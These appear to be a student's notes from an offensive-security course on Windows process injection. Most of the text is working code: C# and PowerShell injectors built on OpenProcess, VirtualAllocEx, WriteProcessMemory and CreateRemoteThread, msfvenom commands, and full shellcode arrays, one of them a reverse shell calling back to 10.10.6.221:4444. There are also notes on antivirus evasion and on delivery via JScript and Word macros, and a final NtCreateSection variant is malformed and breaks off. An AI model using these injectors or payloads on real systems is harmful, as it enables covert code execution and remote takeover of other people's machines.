



http://www.pinvoke.net/

page - 131

# Process Injection and migration

We are going to inject our shellcode to various processses to make it work.

# finding a home for shellcode 

We can run our shellcode either in an unlikely to terminate process like explorer.exe 
or start a hidden process notepad.exe
or we migrate to a process like svchost.exe

# process injection and migration theory

Process vs thread

A process has its own virtual memory space, and this space isnot meant to directly interact with other applications.

Thread executes the compiled assembly code of an application. Each thread has its own memory stack.


We will try to open one process from another using Win32 OpenProcess API.

We will modify its memory space using VirtualAllocEx, and WriteProcessMemory and start process with CreateRemoteThread.

### intptr

intptr are intermediate data types that can be used as a standby for point ot int. so used in handles.

### Openprocess API 

opens an existing process and needs 3 parameters. dwDesiredAccess establishes the access rights we require on that process. bInheritHandle - this determines if the handle can be inherited by a child process. dwProcessId - This is the process Id of the remote process.

Integrity level concept: We can access a process with lower integrity level from a higher intergrity level.



VirtualAllocEx - this is used to allocate memory to our shellcode to a remote process

# process injection in C#

gives in detail how to look for functions in pinvoke.net.

```c#
LPVOID VirtualAllocEx(
 HANDLE hProcess, // handle to process
 LPVOID lpAddress, // starting address of memory to wrtie our injected instructions
if the address mentioned is already in use then execution will fail so better to pass NULL
 SIZE_T dwSize, // size of allocation we will set as 0x1000
 DWORD flAllocationType,// MEM_COMMIT and MEM_RESERVE 0x3000
 DWORD flProtect // 0x40 PAGE_EXECUTE_READWRITE
)
```

### WriteProcessMemory

WriteProcessMemory - We can copy data to remote process. (RTLMoveMemory doesn't support this.)


```C#
[DllImport("kernel32.dll")]
static extern bool WriteProcessMemory(
     IntPtr hProcess,// process handle
     IntPtr lpBaseAddress,/// newly allocated memory address 
     byte[] lpBuffer,// address of bytearray containing the shell code
     Int32 nSize,// size of shellcode
     out IntPtr lpNumberOfBytesWritten // a pointers to memory localtion to output how much data was copied
);
```

Notice that the out252 keyword was prepended to the outSize variable to have it passed by 
reference instead of value. This ensures that the argument type aligns with the function 
prototype

to get shellcode use msfvenom given below

### CreateRemoteThread

CreateRemoteThread - as we cannot just call CreateThread.

```C#
HANDLE CreateRemoteThread(
 HANDLE hProcess, // process handle
 LPSECURITY_ATTRIBUTES lpThreadAttributes, // IntPtr.Zero for default values
 SIZE_T dwStackSize, // allowed stack size can be 0
 LPTHREAD_START_ROUTINE lpStartAddress, // start address of a thread
 LPVOID lpParameter, // pointer to variables that will be passed to the thread can be nill
 DWORD dwCreationFlags, // ignore 0
 LPDWORD lpThreadId // ignore IntPtr.Zero
)
```


### creating a code based injection

for calc x64 winexec

```csharp
──(root㉿kali)-[/home/kali/codeplay/CVE-2022-1388]
└─# msfvenom -p windows/x64/exec CMD=calc.exe -b "x00" EXIT_FUNC=THREAD -f csharp
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
Found 3 compatible encoders
Attempting to encode payload with 1 iterations of generic/none
generic/none failed with Encoding failed due to a bad character (index=273, char=0x78)
Attempting to encode payload with 1 iterations of x64/xor
x64/xor succeeded with size 319 (iteration=0)
x64/xor chosen with final size 319
Payload size: 319 bytes
Final size of csharp file: 1648 bytes
byte[] buf = new byte[319] {
0x48,0x31,0xc9,0x48,0x81,0xe9,0xdd,0xff,0xff,0xff,0x48,0x8d,0x05,0xef,0xff,
0xff,0xff,0x48,0xbb,0xb6,0x91,0x18,0x2b,0x1c,0x05,0x92,0x1b,0x48,0x31,0x58,
0x27,0x48,0x2d,0xf8,0xff,0xff,0xff,0xe2,0xf4,0x4a,0xd9,0x9b,0xcf,0xec,0xed,
0x52,0x1b,0xb6,0x91,0x59,0x7a,0x5d,0x55,0xc0,0x4a,0xe0,0xd9,0x29,0xf9,0x79,
0x4d,0x19,0x49,0xd6,0xd9,0x93,0x79,0x04,0x4d,0x19,0x49,0x96,0xd9,0x93,0x59,
0x4c,0x4d,0x9d,0xac,0xfc,0xdb,0x55,0x1a,0xd5,0x4d,0xa3,0xdb,0x1a,0xad,0x79,
0x57,0x1e,0x29,0xb2,0x5a,0x77,0x58,0x15,0x6a,0x1d,0xc4,0x70,0xf6,0xe4,0xd0,
0x49,0x63,0x97,0x57,0xb2,0x90,0xf4,0xad,0x50,0x2a,0xcc,0x8e,0x12,0x93,0xb6,
0x91,0x18,0x63,0x99,0xc5,0xe6,0x7c,0xfe,0x90,0xc8,0x7b,0x97,0x4d,0x8a,0x5f,
0x3d,0xd1,0x38,0x62,0x1d,0xd5,0x71,0x4d,0xfe,0x6e,0xd1,0x6a,0x97,0x31,0x1a,
0x53,0xb7,0x47,0x55,0x1a,0xd5,0x4d,0xa3,0xdb,0x1a,0xd0,0xd9,0xe2,0x11,0x44,
0x93,0xda,0x8e,0x71,0x6d,0xda,0x50,0x06,0xde,0x3f,0xbe,0xd4,0x21,0xfa,0x69,
0xdd,0xca,0x5f,0x3d,0xd1,0x3c,0x62,0x1d,0xd5,0xf4,0x5a,0x3d,0x9d,0x50,0x6f,
0x97,0x45,0x8e,0x52,0xb7,0x41,0x59,0xa0,0x18,0x8d,0xda,0x1a,0x66,0xd0,0x40,
0x6a,0x44,0x5b,0xcb,0x41,0xf7,0xc9,0x59,0x72,0x5d,0x5f,0xda,0x98,0x5a,0xb1,
0x59,0x79,0xe3,0xe5,0xca,0x5a,0xef,0xcb,0x50,0xa0,0x0e,0xec,0xc5,0xe4,0x49,
0x6e,0x45,0x63,0xa6,0x04,0x92,0x1b,0xb6,0x91,0x18,0x2b,0x1c,0x4d,0x1f,0x96,
0xb7,0x90,0x18,0x2b,0x5d,0xbf,0xa3,0x90,0xd9,0x16,0xe7,0xfe,0xa7,0xf5,0x27,
0xb9,0xe0,0xd0,0xa2,0x8d,0x89,0xb8,0x0f,0xe4,0x63,0xd9,0x9b,0xef,0x34,0x39,
0x94,0x67,0xbc,0x11,0xe3,0xcb,0x69,0x00,0x29,0x5c,0xa5,0xe3,0x77,0x41,0x1c,
0x5c,0xd3,0x92,0x6c,0x6e,0xcd,0x48,0x7d,0x69,0xf1,0x35,0xd3,0xe9,0x7d,0x2b,
0x1c,0x05,0x92,0x1b };
```


for reverse connect

```C#
└─$ msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.6.221 LPORT=4444 -f csharp
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of csharp file: 2362 bytes
byte[] buf = new byte[460] {
0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,
0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,
0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,
0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,
0x01,0xd0,0x8b,0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,
0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x56,0x48,
0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,
0xac,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,
0x24,0x08,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,
0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,
0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,
0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,
0x8b,0x12,0xe9,0x57,0xff,0xff,0xff,0x5d,0x49,0xbe,0x77,0x73,0x32,0x5f,0x33,
0x32,0x00,0x00,0x41,0x56,0x49,0x89,0xe6,0x48,0x81,0xec,0xa0,0x01,0x00,0x00,
0x49,0x89,0xe5,0x49,0xbc,0x02,0x00,0x11,0x5c,0x0a,0x0a,0x06,0xdd,0x41,0x54,
0x49,0x89,0xe4,0x4c,0x89,0xf1,0x41,0xba,0x4c,0x77,0x26,0x07,0xff,0xd5,0x4c,
0x89,0xea,0x68,0x01,0x01,0x00,0x00,0x59,0x41,0xba,0x29,0x80,0x6b,0x00,0xff,
0xd5,0x50,0x50,0x4d,0x31,0xc9,0x4d,0x31,0xc0,0x48,0xff,0xc0,0x48,0x89,0xc2,
0x48,0xff,0xc0,0x48,0x89,0xc1,0x41,0xba,0xea,0x0f,0xdf,0xe0,0xff,0xd5,0x48,
0x89,0xc7,0x6a,0x10,0x41,0x58,0x4c,0x89,0xe2,0x48,0x89,0xf9,0x41,0xba,0x99,
0xa5,0x74,0x61,0xff,0xd5,0x48,0x81,0xc4,0x40,0x02,0x00,0x00,0x49,0xb8,0x63,
0x6d,0x64,0x00,0x00,0x00,0x00,0x00,0x41,0x50,0x41,0x50,0x48,0x89,0xe2,0x57,
0x57,0x57,0x4d,0x31,0xc0,0x6a,0x0d,0x59,0x41,0x50,0xe2,0xfc,0x66,0xc7,0x44,
0x24,0x54,0x01,0x01,0x48,0x8d,0x44,0x24,0x18,0xc6,0x00,0x68,0x48,0x89,0xe6,
0x56,0x50,0x41,0x50,0x41,0x50,0x41,0x50,0x49,0xff,0xc0,0x41,0x50,0x49,0xff,
0xc8,0x4d,0x89,0xc1,0x4c,0x89,0xc1,0x41,0xba,0x79,0xcc,0x3f,0x86,0xff,0xd5,
0x48,0x31,0xd2,0x48,0xff,0xca,0x8b,0x0e,0x41,0xba,0x08,0x87,0x1d,0x60,0xff,
0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,
0x83,0xc4,0x28,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,
0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5 };

```

Using mingw compiler https://www.msys2.org/


https://code.visualstudio.com/docs/cpp/config-mingw#:~:text=From%20the%20main%20menu%2C%20choose%20Run%20%3E%20Add%20Configuration..,build%20and%20debug%20active%20file. 

cttrl + shift + b - to build

with the pe injection it works from here - 

https://www.ired.team/offensive-security/code-injection-process-injection/process-injection

scan result 5/26

Trying to evade the AV we have - https://0xhop.github.io/evasion/2021/04/19/evasion-pt1/

### 5.1.2.1 Exercises
1. Replicate the steps and inject a reverse Meterpreter shell into the explorer.exe process.

able to inject into notepad not explorer.exe



2. Modify the code of the ExampleAssembly project in DotNetToJscript to create a Jscript file 
that executes the shellcode inside explorer.exe. Instead of hardcoding the process ID, which 
cannot be known remotely, use the Process.GetProcessByName255 method to resolve it 
dynamically.



```csharp
//    This file is part of DotNetToJScript.
//    Copyright (C) James Forshaw 2017
//
//    DotNetToJScript is free software: you can redistribute it and/or modify
//    it under the terms of the GNU General Public License as published by
//    the Free Software Foundation, either version 3 of the License, or
//    (at your option) any later version.
//
//    DotNetToJScript is distributed in the hope that it will be useful,
//    but WITHOUT ANY WARRANTY; without even the implied warranty of
//    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
//    GNU General Public License for more details.
//
//    You should have received a copy of the GNU General Public License
//    along with DotNetToJScript.  If not, see <http://www.gnu.org/licenses/>.

using System;

using System.Diagnostics;
using System.Runtime.InteropServices;


[ComVisible(true)]
public class TestClass
{
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int
processId);
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint
   dwSize, uint flAllocationType, uint flProtect);
    [DllImport("kernel32.dll")]
    static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress,
byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
    [DllImport("kernel32.dll")]
    static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr
   lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint
   dwCreationFlags, IntPtr lpThreadId);
    public TestClass()
    {
       

        System.Diagnostics.Process[] pid_process = Process.GetProcessesByName("notepad");
   

        if (pid_process.Length == 0)
        {
            Console.Write("Process not found!");
            return;
        }
        else
        {
            Console.Write("ID of notepad is " + pid_process[0].Id);
            IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid_process[0].Id);
            IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
            byte[] buf = new byte[319] {
            0x48,0x31,0xc9,0x48,0x81,0xe9,0xdd,0xff,0xff,0xff,0x48,0x8d,0x05,0xef,0xff,
            0xff,0xff,0x48,0xbb,0xb6,0x91,0x18,0x2b,0x1c,0x05,0x92,0x1b,0x48,0x31,0x58,
            0x27,0x48,0x2d,0xf8,0xff,0xff,0xff,0xe2,0xf4,0x4a,0xd9,0x9b,0xcf,0xec,0xed,
            0x52,0x1b,0xb6,0x91,0x59,0x7a,0x5d,0x55,0xc0,0x4a,0xe0,0xd9,0x29,0xf9,0x79,
            0x4d,0x19,0x49,0xd6,0xd9,0x93,0x79,0x04,0x4d,0x19,0x49,0x96,0xd9,0x93,0x59,
            0x4c,0x4d,0x9d,0xac,0xfc,0xdb,0x55,0x1a,0xd5,0x4d,0xa3,0xdb,0x1a,0xad,0x79,
            0x57,0x1e,0x29,0xb2,0x5a,0x77,0x58,0x15,0x6a,0x1d,0xc4,0x70,0xf6,0xe4,0xd0,
            0x49,0x63,0x97,0x57,0xb2,0x90,0xf4,0xad,0x50,0x2a,0xcc,0x8e,0x12,0x93,0xb6,
            0x91,0x18,0x63,0x99,0xc5,0xe6,0x7c,0xfe,0x90,0xc8,0x7b,0x97,0x4d,0x8a,0x5f,
            0x3d,0xd1,0x38,0x62,0x1d,0xd5,0x71,0x4d,0xfe,0x6e,0xd1,0x6a,0x97,0x31,0x1a,
            0x53,0xb7,0x47,0x55,0x1a,0xd5,0x4d,0xa3,0xdb,0x1a,0xd0,0xd9,0xe2,0x11,0x44,
            0x93,0xda,0x8e,0x71,0x6d,0xda,0x50,0x06,0xde,0x3f,0xbe,0xd4,0x21,0xfa,0x69,
            0xdd,0xca,0x5f,0x3d,0xd1,0x3c,0x62,0x1d,0xd5,0xf4,0x5a,0x3d,0x9d,0x50,0x6f,
            0x97,0x45,0x8e,0x52,0xb7,0x41,0x59,0xa0,0x18,0x8d,0xda,0x1a,0x66,0xd0,0x40,
            0x6a,0x44,0x5b,0xcb,0x41,0xf7,0xc9,0x59,0x72,0x5d,0x5f,0xda,0x98,0x5a,0xb1,
            0x59,0x79,0xe3,0xe5,0xca,0x5a,0xef,0xcb,0x50,0xa0,0x0e,0xec,0xc5,0xe4,0x49,
            0x6e,0x45,0x63,0xa6,0x04,0x92,0x1b,0xb6,0x91,0x18,0x2b,0x1c,0x4d,0x1f,0x96,
            0xb7,0x90,0x18,0x2b,0x5d,0xbf,0xa3,0x90,0xd9,0x16,0xe7,0xfe,0xa7,0xf5,0x27,
            0xb9,0xe0,0xd0,0xa2,0x8d,0x89,0xb8,0x0f,0xe4,0x63,0xd9,0x9b,0xef,0x34,0x39,
            0x94,0x67,0xbc,0x11,0xe3,0xcb,0x69,0x00,0x29,0x5c,0xa5,0xe3,0x77,0x41,0x1c,
            0x5c,0xd3,0x92,0x6c,0x6e,0xcd,0x48,0x7d,0x69,0xf1,0x35,0xd3,0xe9,0x7d,0x2b,
            0x1c,0x05,0x92,0x1b };
            IntPtr outSize;
            WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);
            IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr,IntPtr.Zero, 0, IntPtr.Zero);
        }

        
    }

    public void RunProcess(string path)
    {
        Process.Start(path);
    }
}


```

3. Port the code from C# to PowerShell to allow process injection and shellcode execution 
from a Word macro through PowerShell. Remember that PowerShell is started as 32-bit, so 
instead of injecting into explorer.exe, start a 32-bit process such as Notepad and inject into 
that instead.

how to add - using add type

```powershell
$User32 = @"
using System;
using System.Runtime.InteropServices;
public class User32 {
 [DllImport("user32.dll", CharSet=CharSet.Auto)]
 public static extern int MessageBox(IntPtr hWnd, String text, String caption, int
options);
}
"@
Add-Type $User32
[User32]::MessageBox(0, "This is an alert", "MyBox", 0)
```

the code in C#

```c#
using System;
using System.Runtime.InteropServices;
namespace Inject
{
 class Program
 {
 [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
 static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int
processId);
 [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
 static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint
dwSize, uint flAllocationType, uint flProtect);
 [DllImport("kernel32.dll")]
 static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress,
byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
 [DllImport("kernel32.dll")]
 static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr
lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint
dwCreationFlags, IntPtr lpThreadId);
 static void Main(string[] args)
 {
 IntPtr hProcess = OpenProcess(0x001F0FFF, false, 4804);
 IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
 byte[] buf = new byte[591] {

0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
 ....
 0x0a,0x41,0x89,0xda,0xff,0xd5 };
 IntPtr outSize;
 WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);
 IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr,
IntPtr.Zero, 0, IntPtr.Zero);
 }
 }
}

```

combining both - we can look at ps1 gallery for reference.

```powershell
$Kernel32 = @"
using System;
using System.Runtime.InteropServices;
public class Kernel32 {
  [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
 public static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int
processId);
 [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
 public static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint
dwSize, uint flAllocationType, uint flProtect);
 [DllImport("kernel32.dll")]
 public static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress,
byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
 [DllImport("kernel32.dll")]
 public static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr
lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint
dwCreationFlags, IntPtr lpThreadId);
}
"@

Add-Type $Kernel32
[Byte[]]$buf =
0x48,0x31,0xc9,0x48,0x81,0xe9,0xdd,0xff,0xff,0xff,0x48,0x8d,0x05,0xef,0xff,
0xff,0xff,0x48,0xbb,0xb6,0x91,0x18,0x2b,0x1c,0x05,0x92,0x1b,0x48,0x31,0x58,
0x27,0x48,0x2d,0xf8,0xff,0xff,0xff,0xe2,0xf4,0x4a,0xd9,0x9b,0xcf,0xec,0xed,
0x52,0x1b,0xb6,0x91,0x59,0x7a,0x5d,0x55,0xc0,0x4a,0xe0,0xd9,0x29,0xf9,0x79,
0x4d,0x19,0x49,0xd6,0xd9,0x93,0x79,0x04,0x4d,0x19,0x49,0x96,0xd9,0x93,0x59,
0x4c,0x4d,0x9d,0xac,0xfc,0xdb,0x55,0x1a,0xd5,0x4d,0xa3,0xdb,0x1a,0xad,0x79,
0x57,0x1e,0x29,0xb2,0x5a,0x77,0x58,0x15,0x6a,0x1d,0xc4,0x70,0xf6,0xe4,0xd0,
0x49,0x63,0x97,0x57,0xb2,0x90,0xf4,0xad,0x50,0x2a,0xcc,0x8e,0x12,0x93,0xb6,
0x91,0x18,0x63,0x99,0xc5,0xe6,0x7c,0xfe,0x90,0xc8,0x7b,0x97,0x4d,0x8a,0x5f,
0x3d,0xd1,0x38,0x62,0x1d,0xd5,0x71,0x4d,0xfe,0x6e,0xd1,0x6a,0x97,0x31,0x1a,
0x53,0xb7,0x47,0x55,0x1a,0xd5,0x4d,0xa3,0xdb,0x1a,0xd0,0xd9,0xe2,0x11,0x44,
0x93,0xda,0x8e,0x71,0x6d,0xda,0x50,0x06,0xde,0x3f,0xbe,0xd4,0x21,0xfa,0x69,
0xdd,0xca,0x5f,0x3d,0xd1,0x3c,0x62,0x1d,0xd5,0xf4,0x5a,0x3d,0x9d,0x50,0x6f,
0x97,0x45,0x8e,0x52,0xb7,0x41,0x59,0xa0,0x18,0x8d,0xda,0x1a,0x66,0xd0,0x40,
0x6a,0x44,0x5b,0xcb,0x41,0xf7,0xc9,0x59,0x72,0x5d,0x5f,0xda,0x98,0x5a,0xb1,
0x59,0x79,0xe3,0xe5,0xca,0x5a,0xef,0xcb,0x50,0xa0,0x0e,0xec,0xc5,0xe4,0x49,
0x6e,0x45,0x63,0xa6,0x04,0x92,0x1b,0xb6,0x91,0x18,0x2b,0x1c,0x4d,0x1f,0x96,
0xb7,0x90,0x18,0x2b,0x5d,0xbf,0xa3,0x90,0xd9,0x16,0xe7,0xfe,0xa7,0xf5,0x27,
0xb9,0xe0,0xd0,0xa2,0x8d,0x89,0xb8,0x0f,0xe4,0x63,0xd9,0x9b,0xef,0x34,0x39,
0x94,0x67,0xbc,0x11,0xe3,0xcb,0x69,0x00,0x29,0x5c,0xa5,0xe3,0x77,0x41,0x1c,
0x5c,0xd3,0x92,0x6c,0x6e,0xcd,0x48,0x7d,0x69,0xf1,0x35,0xd3,0xe9,0x7d,0x2b,
0x1c,0x05,0x92,0x1b 

$hProcess =[Kernel32]::OpenProcess(0x001F0FFF, 0, 17692);
Write-Output $hProcess
Write-Output $buf.Length 

$addr = [Kernel32]::VirtualAllocEx([IntPtr]$hProcess, [IntPtr]::Zero, $buf.Length, 0x3000, 0x40);

[Int32]$lpNumberOfBytesWritten = 0
[Kernel32]::WriteProcessMemory($hProcess, $addr, $buf, $buf.Length, [ref]$lpNumberOfBytesWritten);

$ThreadId = 0
$hThread = [Kernel32]::CreateRemoteThread([IntPtr]$hProcess, [IntPtr]::Zero, 0, $addr, [IntPtr]::Zero, 0, [IntPtr]::Zero);


```
error
```
Method invocation failed because [Kernel32] does not contain a method named 
'OpenProcess'.
```

### 5.1.2.2 Extra Mile

Process injection with VirtualAllocEx, WriteProcessMemory, and CreateRemoteThread is 
considered a standard technique, but there are a few others to consider.
The low-level native APIs NtCreateSection, NtMapViewOfSection, NtUnMapViewOfSection, and 
NtClose in ntdll.dll can be used as alternatives to VirtualAllocEx and WriteProcessMemory.
Create C# code that performs process injection using the four new APIs instead of VirtualAllocEx
and WriteProcessMemory. Convert the code to Jscript with DotNetToJscript. Note that 
CreateRemoteThread must still be used to execute the shellcode


```
using System;
using System.Runtime.InteropServices;
namespace Inject
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int
       processId);
        [DllImport("ntdll.dll", SetLastError = true, ExactSpelling = true)]
        static extern UInt32 NtCreateSection(
        ref IntPtr SectionHandle,
        UInt32 DesiredAccess,
        IntPtr ObjectAttributes,
        ref UInt32 MaximumSize,
        UInt32 SectionPageProtection,
        UInt32 AllocationAttributes,
        IntPtr FileHandle);
        [DllImport("ntdll.dll", SetLastError = true)]
        static extern uint NtMapViewOfSection(
    IntPtr SectionHandle,
    IntPtr ProcessHandle,
    ref IntPtr BaseAddress,
    UIntPtr ZeroBits,
    UIntPtr CommitSize,
    out ulong SectionOffset,
    out uint ViewSize,
    uint InheritDisposition,
    uint AllocationType,
    uint Win32Protect);
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint
       dwSize, uint flAllocationType, uint flProtect);
        [DllImport("kernel32.dll")]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress,
       byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr
       lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint
       dwCreationFlags, IntPtr lpThreadId);
        static void Main(string[] args)
        {

         IntPtr SectionHandle = IntPtr.Zero;
         uint MaximumSize = 2048;
         private static uint SEC_COMMIT = 0x08000000;
         private static uint SECTION_MAP_WRITE = 0x0002;
         private static uint SECTION_MAP_READ = 0x0004;
         private static uint SECTION_MAP_EXECUTE = 0x0008;
         private static uint SECTION_ALL_ACCESS = SECTION_MAP_WRITE | SECTION_MAP_READ | SECTION_MAP_EXECUTE;
         uint res = NtCreateSection(ref SectionHandle, SECTION_ALL_ACCESS, IntPtr.Zero, ref MaximumSize, EXECUTE_READ_WRITE, SEC_COMMIT, IntPtr.Zero);
        // res = 0 indicates a successful creation of section

        [DllImport("ntdll.dll", SetLastError = true)]
        static extern uint NtMapViewOfSection(
   IntPtr SectionHandle,
   IntPtr ProcessHandle,
   ref IntPtr BaseAddress,
   UIntPtr ZeroBits,
   UIntPtr CommitSize,
   out ulong SectionOffset,
   out uint ViewSize,
   uint InheritDisposition,
   uint AllocationType,
   uint Win32Protect);

        IntPtr hProcess = OpenProcess(0x001F0FFF, false, 7676);
            IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
            byte[] buf = new byte[319] {
                0x48,0x31,0xc9,0x48,0x81,0xe9,0xdd,0xff,0xff,0xff,0x48,0x8d,0x05,0xef,0xff,
                0xff,0xff,0x48,0xbb,0xb6,0x91,0x18,0x2b,0x1c,0x05,0x92,0x1b,0x48,0x31,0x58,
                0x27,0x48,0x2d,0xf8,0xff,0xff,0xff,0xe2,0xf4,0x4a,0xd9,0x9b,0xcf,0xec,0xed,
